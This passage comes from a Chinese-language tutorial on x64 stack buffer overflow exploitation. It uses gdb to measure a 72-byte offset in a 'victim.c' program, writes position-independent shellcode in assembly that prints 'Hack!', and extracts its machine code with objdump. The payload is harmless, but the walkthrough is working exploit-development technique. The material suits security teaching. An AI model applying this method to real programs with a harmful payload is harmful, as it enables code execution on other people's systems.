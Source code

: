     Breakpoint 1, main () at victim.c:3
    3   int main() {
    => 0x0000000000400576 <main+0>: 55  push   rbp
       0x0000000000400577 <main+1>: 48 89 e5    mov    rbp,rsp
       0x000000000040057a <main+4>: 48 83 ec 40 sub    rsp,0x40
    (gdb) 

此时程序停留在 main 函数的第一条指令处，输入 ***p &name[0]*** 和 ***x/gx $rsp*** 分别查看 name 的起始指针和此时的栈顶指针 rsp 。

    (gdb) p &name[0]
    $1 = 0x7fffffffe100 "\001"
    (gdb) x/gx $rsp
    0x7fffffffe148: 0x00007ffff7a54b45
    (gdb) 

得到 name 的起始指针为 0x7fffffffe100 、此时的栈顶指针 rsp 为 0x7fffffffe148 ， name 到 rsp 之间一共 0x48 （也就是 72 ）个字节，这和之前的分析是一致的。

下面来写攻击指令的机器码，首先写出汇编代码：

    [section .text]
            global _start

    _start:
            jmp END
    BEGIN:
            mov rax, 1
            mov rdi, 1
            pop rsi
            mov rdx, 5
            syscall

            mov rax, 0x3c
            mov rdi, 0
            syscall
    END:
            call BEGIN
            DB "Hack!"

这段程序和第一节的 Hello-x64 基本一样，不同之处在于巧妙的利用了 ***call BEGIN和pop rsi*** 获得了字符串 “Hack” 的地址、并保存到 rsi 中。将以上代码保存为 shell.asm ，编译运行一下：

    $ nasm -f elf64 shell.asm
    $ ld -s -o shell shell.o
    $ ./shell
    Hack!

然后用 objdump 程序提取出机器码：

    $ objdump -d shell -M intel
    ...
    0000000000400080 <.text>:
      400080:   eb 1e                   jmp    0x4000a0
      400082:   b8 01 00 00 00          mov    eax,0x1
      400087:   bf 01 00 00 00          mov    edi,0x1
      40008c:   5e                      pop    rsi
      40008d:   ba 05 00 00 00          mov    edx,0x5
      400092:   0f 05                   syscall 
      400094:   b8 3c 00 00 00          mov    eax,0x3c
      400099:   bf 00 00 00 00          mov    edi,0x0
      40009e:   0f 05                   syscall 
      4000a0:   e8 dd ff ff ff          call   0x400082
      4000a5:   48 61                   rex.W (bad) 
      4000a7:   63 6b 21                movsxd ebp,DWORD PTR [rbx+0x21]
